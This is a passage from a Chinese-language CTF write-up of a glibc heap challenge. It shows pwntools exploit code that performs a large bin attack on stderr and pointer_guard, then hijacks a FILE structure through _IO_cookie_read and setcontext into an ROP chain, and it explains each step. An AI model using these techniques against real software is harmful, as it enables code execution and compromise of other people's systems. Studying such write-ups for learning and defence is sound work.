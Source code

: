 ```python

add_cat(11, 0x460, b'\x00' * 0x430 + p64(0) + p64(0x461))
add_cat(12, 0x420, b'\x00')
delete_cat(7)

add_cat(13, 0x450, b'\x00' * 0x20 + p64(0) + p64(0x1101))
delete_cat(7)
add_cat(14, 0x460, b'\x00')
delete_cat(9)
delete_cat(12)
delete_cat(14)

# delete_cat(11)
edit_cat(7, p64(base + 0x21A0E0) * 2 + p64(0) + p64(base + libc.symbols['stderr'] - 0x20) + p64(0) + p64(0x201))
io.sendlineafter(b'mew mew mew~~~~~~', b'CAT | r00t QWB QWXF\xFF$')  # enter the menu
io.sendlineafter(b'plz input your cat choice:\n', b'1')
io.sendlineafter(b'plz input your cat idx:\n', b'15')
# gdb.attach(io)
# time.sleep(1)
io.sendlineafter(b'plz input your cat size:\n', b'1129')
io.interactive()
```

前面的交互就不用说了，首先是释放chunk 1和4获取到libc和heap地址，并顺便使用0x400~0x430的large bin的large bin attack修改``tcbhead_t``结构体中的``pointer_guard``。``pcop``变量就是前面提到的pcop地址，``encrypted_addr``就是处理后的地址，经过``_IO_cookie_read``函数处理后能够变成``pcop``地址。

在payload中首先是``_IO_FILE``结构体，可以使用``pwntools``自带的``FileStructure``类进行声明，如果需要将其转为字节可使用``bytes()``函数进行处理。这里需要注意我们舍去了``_IO_FILE``的前0x10字节，因为large bin attack只能够将chunk地址写到``stderr``中，在可写头前面还有``prev_size``和``size``字段，为了保证对齐，需要舍弃``_IO_FILE``结构体的前0x10字节。

在``_IO_FILE``结构体后加上这个地方的堆地址和处理后的pcop地址，能够保证``_IO_cookie_read``函数能够跳转到pcop中。以0x100对齐后加上``setcontext``函数地址使得pcop能够调用到``setcontext``函数。

在``setcontext``后面紧跟``SigReturnFrame``结构体，这个结构体本来是用作系统调用``sysreturn``的，这里使用是因为其中``rsp``和``rip``的值正好能够对应上``setcontext``函数中的相关指令，能够通过修改``SigReturnFrame``结构体使得``setcontext``将``rsp``修改为我们想要栈迁移的地址，``rip``修改为我们想要跳转到的地址。注意这里的``SigReturnFrame``结构体舍弃了前面的0x28字节，原因与``_IO_FILE``舍弃前0x10字节类似，都是为了对齐。

在此之后就是ROP链，将``rsp``设置到这里，待``setcontext``返回后即可在这里继续执行，后面就是常规的orw。

![](11.png)
成功getshell。

# 总结
理解本题的关键在于理解函数调用链：
``calloc->_int_malloc->sysmalloc->__malloc_assert->__fxprintf->...->_IO_cookie_read->pcop->setcontext->ROP``
